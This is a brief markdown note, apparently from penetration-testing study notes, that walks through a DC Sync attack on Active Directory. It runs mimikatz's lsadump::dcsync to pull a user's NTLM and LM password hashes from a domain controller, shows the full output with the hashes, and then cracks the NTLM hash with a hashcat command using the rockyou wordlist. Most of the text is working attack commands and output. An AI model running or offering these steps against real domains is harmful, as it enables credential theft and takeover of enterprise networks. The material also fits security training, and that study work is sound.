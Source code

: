 # DC Sync

This attack takes advantage of DC synchronization. This is common in many enterprise environments as multiple DC's are usually implemented to ensure redundancy.

We can start by running `mimikatz`

```
mimikatz # lsadump::dcsync /user:corp\dave
[DC] 'corp.com' will be the domain
[DC] 'DC1.corp.com' will be the DC server
[DC] 'corp\dave' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : dave

** SAM ACCOUNT **

SAM Username         : dave
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00410200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD DONT_REQUIRE_PREAUTH )
Account expiration   :
Password last change : 9/7/2022 9:54:57 AM
Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-1103
Object Relative ID   : 1103

Credentials:
    Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494 <- This is what we are looking for
    ntlm- 0: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 1: a11e808659d5ec5b6c4f43c1e5a0972d
    lm  - 0: 45bc7d437911303a42e764eaf8fda43e
    lm  - 1: fdd7d20efbcaf626bd2ccedd49d9512d
...
```

We can then crack the ntlm hash with hashcat

```bash
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

